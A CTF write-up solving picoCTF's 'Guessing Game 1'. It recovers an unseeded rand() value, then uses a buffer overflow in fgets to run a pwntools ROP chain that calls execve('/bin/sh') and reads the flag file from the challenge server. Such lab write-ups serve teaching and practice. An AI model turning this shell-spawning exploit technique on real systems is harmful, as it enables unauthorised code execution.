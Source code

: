 ```yaml
---
slug: guessing_game_1
title: Guessing Game 1
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Description:

I made a simple game to show off my programming skills. See if you can beat it!

<!--truncate-->

## The Challenge

Challenge can be found [here](https://play.picoctf.org/practice/challenge/90?page=1&search=guess)

## The Solve

Upon inspection of the source code, I saw that there is no call to ```srand()``` meaning that the value for ```rand()``` stays the same every time the program is run. We can extract the value using gdb and get ```0x53```. Incrementing this by 1 gives us the correct value ```84```. Entering this value to the program allows us to reach the ```win``` function.

```win``` contains a buffer overflow when it calls ```fgets```. I could not find the challenge flag within the executable so I used ropper to find ROP gadgets and obtain a shell.

Conditions for obtaining a shell with execve:

1. char \* filepath set to /bin/sh in rdi
2. char \* argv set to NULL in rsi
3. char \* envp set to NULL in rdx
4. value 0x3b for syscall in rax

After obtaining a shell, I was able to see that there was a flag file and ```cat``` it.

## Script

```python
"""
Toast's submission for picoGym challenge Guessing Game 1.

This script can be used in the following manner:
python3 ./solve.py <REMOTE/LOCAL>

Args:
    param1: LOCAL will operate locally on the user's machine.
            REMOTE will connect to the CTF webserver and grab the flag.
            If no parameter is specified, the program will default to LOCAL.

Returns:
    The flag to solve the challenge.
"""

from pwn import *

exe = ELF("./vuln")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('jupiter.challenges.picoctf.org', 50581)
    elif args.get('GDB'):
        io = gdb.debug([exe.path])
    else:
        io = process([exe.path])

    return io


def main():
    flag = get_flag()
    log.success(flag)


def get_flag():
    '''Return the flag.
    '''
    with conn() as io:
        io.sendline(b"84")
        payload = b"A" * 120

        # 0x6ba0e0 Address of Data section
        # 0x400696 pop rdi; ret;
        payload += p64(0x400696) + p64(0x6ba0e0)

        # 0x410ca3 pop rsi; ret;
        payload += p64(0x410ca3) + b"/bin//sh"

        # 0x447d7b mov qword ptr [rdi], rsi; ret;
        payload += p64(0x447d7b)

        # 0x6ba0e8 address of DATA + 8
        # 0x410ca3 pop rsi; ret;
        payload += p64(0x410ca3) + p64(0x6ba0e8)

        # 0x6ba0e8 address of DATA + 8
        # 0x44cc26 pop rdx; ret;
        payload += p64(0x44cc26) + p64(0x6ba0e8)

        # 0x4163f4 pop rax; ret;
        payload += p64(0x4163f4) + p64(0x3b)

        # 0x40137c syscall;
        payload += p64(0x40137c)

        io.sendline(payload)

        io.recvuntil(b"\x06")
        io.recvuntil(b"@\n\n")
        io.sendline(b"cat flag.txt")
        flag = io.recvline()
        io.close()
        return flag.decode()


if __name__ == '__main__':
    main()
```
